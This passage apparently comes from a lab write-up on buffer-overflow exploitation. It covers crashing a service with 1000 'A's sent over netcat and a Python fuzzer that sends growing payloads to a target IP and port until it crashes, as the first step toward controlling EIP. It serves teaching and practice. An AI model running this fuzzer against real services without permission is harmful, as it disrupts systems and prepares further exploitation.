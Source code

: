 ### **Crash Replication & Controlling EIP**

I crashed the program by sending 1000 As

```
python -c 'print("A"* 1000)'
nc -v $TESTMACHINE 31337
```

<figure><img src="../../.gitbook/assets/image (72) (1).png" alt=""><figcaption></figcaption></figure>

**fuzzer.py**

```
#!/usr/bin/env python3

import socket, time, sys

try:
	ip = str(sys.argv[1])
	port = int(sys.argv[2])
	print (ip+":"+str(port))
	timeout = 5
	prefix = ""
	string = prefix + "A" * 10

	while True:
		try:
			with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
				s.settimeout(timeout)
				s.connect((ip, port))
				
				print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
				s.send(bytes(string, "latin-1"))
				s.send(bytes("\n", "latin-1"))


		except:
			print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
			sys.exit(0)
		string += 10 * "A"
		time.sleep(1)

except:
    print ("\nCould not connect!")
    sys.exit()

```
